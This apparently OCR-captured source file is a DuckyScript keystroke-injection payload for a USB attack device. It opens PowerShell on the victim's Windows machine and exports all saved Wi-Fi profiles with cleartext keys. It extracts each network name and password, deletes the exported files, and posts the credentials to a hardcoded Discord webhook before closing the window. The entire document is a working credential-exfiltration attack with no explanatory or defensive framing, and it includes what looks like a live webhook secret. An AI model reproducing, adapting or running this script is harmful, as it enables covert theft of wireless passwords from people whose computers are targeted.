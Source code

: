 \begin{verbatim}

DUCKY_LANG DE_CH
DELAY 3000
GUI r
DELAY 1000
STRING powershell
ENTER
DELAY 2000
STRING cd $Env:temp
ENTER
DELAY 500
STRING netsh wlan export profile key=clear
ENTER
DELAY 1000
STRING $Webhook = "https://discord.com/api/webhooks/1239948314686914591/KrGR_s1qlJbypG9F8jYVq8gDpAyBKFmEcyevqVlmTZOGcvs__5OXVx4QhRpyYLaaeJfG"
ENTER
DELAY 300
STRING $files = Get-ChildItem WiFi-*.xml
ENTER
DELAY 300
STRING foreach ($file in $files) {
ENTER
STRING $xmlContent = Get-Content -Path $file
ENTER
STRING Remove-Item $file
ENTER
STRING $xmlObject = [xml]$xmlContent
ENTER
STRING $Payload = @{name = $xmlObject.WLANProfile.SSIDConfig.SSID.name}
ENTER
STRING $Payload += @{password = $xmlObject.WLANProfile.MSM.security.sharedKey.keyMaterial}
ENTER
STRING $Json = @{content = $Payload | ConvertTo-Json } | ConvertTo-Json	
ENTER
STRING Invoke-RestMethod -Uri $Webhook -Method Post -Body $Json -ContentType 'application/json'
ENTER
STRING }
ENTER
DELAY 10000
ALT SPACE
DELAY 100
STRING C
    
\end{verbatim}
    
